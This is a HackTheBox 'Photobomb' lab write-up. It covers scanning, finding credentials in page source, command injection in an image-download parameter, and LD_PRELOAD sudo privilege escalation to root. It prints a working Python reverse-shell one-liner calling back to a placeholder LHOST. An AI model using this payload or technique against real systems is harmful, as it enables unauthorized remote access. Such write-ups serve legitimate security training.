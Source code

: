 # photobomb-htb-writeup
A free lab from **HackTheBox**, can be found in here if still available: https://app.hackthebox.com/machines/Photobomb

![Photobomb](https://user-images.githubusercontent.com/31168741/201704551-e765c5a7-c32e-43a4-bebc-23ff5f1825c7.png)

## User Own:
Setting up VPN to access lab by the following command:

`sudo openvpn [your.ovpn file]`

![1](https://user-images.githubusercontent.com/31168741/201707116-98e6a13c-2509-4771-9f91-15d231bf138e.PNG)

Activate machine.

![2](https://user-images.githubusercontent.com/31168741/201707154-ec4302dc-20a5-476e-8208-4502d0d672aa.PNG)

Check if it's connected.

![3](https://user-images.githubusercontent.com/31168741/201707188-ddf40cfa-5c10-4bb8-a89d-66c3c97f88e4.PNG)

Run nmap scan to find more information regarding the machine. `sudo nmap -sS -A -p- [machine-ip] -T4` 

![4](https://user-images.githubusercontent.com/31168741/201707217-7ce7997e-73c7-4c6d-956d-3f94bfa7d552.PNG)

Following the scan report above, let's check the ip in browser since it shows has the '80' port open.

![5](https://user-images.githubusercontent.com/31168741/201709583-ff4725a7-670d-48db-8f89-579762570e65.PNG)

Oops! If you ever face issues like this, just do the following:

`sudo nano /etc/hosts`

Type:

>[machine-ip] [domain-address]

![6](https://user-images.githubusercontent.com/31168741/201709609-1540dace-f0e3-40f7-ac46-b5d5c287da7c.PNG)

It worked!

![7](https://user-images.githubusercontent.com/31168741/203564356-ed8d8a73-8c2e-467b-8e79-df37fcdbf1b9.PNG)

Look here and there to find sufficient clues around. I'm running some more tools such as:

`dirsearch -u http://[machine-ip]`<br>

![11](https://user-images.githubusercontent.com/31168741/203568024-106123d0-9112-4ba7-a00c-df39b63725c2.PNG)

From the above found directories:

![10](https://user-images.githubusercontent.com/31168741/203569553-e7f4929d-10ea-45ac-a2f3-fe908b3ea09a.PNG)

Let's look around for clues as to where we can find the credentials. Viewing page sources & inspecting might act benefitting.

![8](https://user-images.githubusercontent.com/31168741/203569838-840fdb47-9844-488d-ad27-52ea89d1ecb8.PNG)

![12](https://user-images.githubusercontent.com/31168741/203569955-c4b4ff0a-c559-4ac0-8cea-45ba2d020224.PNG)

![13](https://user-images.githubusercontent.com/31168741/203570043-aa69c1e7-9556-4aa9-99b0-29c5bd9fc72d.PNG)

Let's zoom it in.

![13](https://user-images.githubusercontent.com/31168741/203590631-6c4124c3-7411-4852-8751-cea1e649bbde.PNG)

Found user and pass. Let's try logging in!

![14](https://user-images.githubusercontent.com/31168741/203570096-e413c8e3-98ee-45bf-bfef-0ea898d786de.PNG)

It worked. What we see is a page with few pictures to download. Let's try incepting the request using burp and see if anything vulnerable found.

![15](https://user-images.githubusercontent.com/31168741/203583327-0ad20b7d-949b-42a4-bc93-349544843706.PNG)
![16](https://user-images.githubusercontent.com/31168741/203583637-609ce260-e0ec-451e-a2f7-9daa83257543.PNG)
![17](https://user-images.githubusercontent.com/31168741/203583725-4b26b2a4-b0d3-45c8-a372-97394cf4a093.PNG)

Tampering with the parameters for the POST request and find that the filetype parameter might be injectable. So, we prepare a python reverse shell and place in filetype section and send the request.

![18](https://user-images.githubusercontent.com/31168741/203584234-6073bc41-3f86-41a7-a2c3-9fe9cd38dbf4.PNG)

The reverse shell: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[LHOST]",[LPORT]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`

![29](https://user-images.githubusercontent.com/31168741/203584370-2ec4ea71-7176-41c0-bbb0-7c373f8f4df9.PNG)
![19](https://user-images.githubusercontent.com/31168741/203584398-ba1628ea-8b44-4fa6-95f1-58abb8b8d6e7.PNG)

We're in the target machine. Looking a little here and there helped me with the user flag!

![20](https://user-images.githubusercontent.com/31168741/203584616-86f9d8fe-7590-4c27-938b-10b1f34d6690.PNG)

## System Own:
Second, to own the system, let's check the sudo rights: `sudo -l`.

![21](https://user-images.githubusercontent.com/31168741/203584890-1a8e1b17-0468-4ece-9b32-3eaf5c5b82c0.PNG)

LD_PRELOAD can be invoked with sudo, let’s create a simple PE shell to exploit this.

![22](https://user-images.githubusercontent.com/31168741/203585120-960af202-007e-419a-ab08-88f12e474960.PNG)
![25](https://user-images.githubusercontent.com/31168741/203585279-40c47a8f-d436-4fec-bc14-03ff8b146e7e.PNG)

Compile the file.

![27](https://user-images.githubusercontent.com/31168741/203585320-d15b7a67-3a79-47a3-9e1f-2be25eff6950.PNG)

Now, upload it to the target machine through python server.

![23](https://user-images.githubusercontent.com/31168741/203585445-42a08f82-64b7-485f-bb6a-6442790c1026.PNG)
![24](https://user-images.githubusercontent.com/31168741/203585498-5daf23df-1f33-458d-a738-c13ca080131c.PNG)

Now the exploit is in the target machine. Trigger the shell to enter as root: `sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh`

![28](https://user-images.githubusercontent.com/31168741/203585818-397e1d19-ce2f-4080-88b8-76813f5d7e00.PNG)

Operating as root! We found root flag!

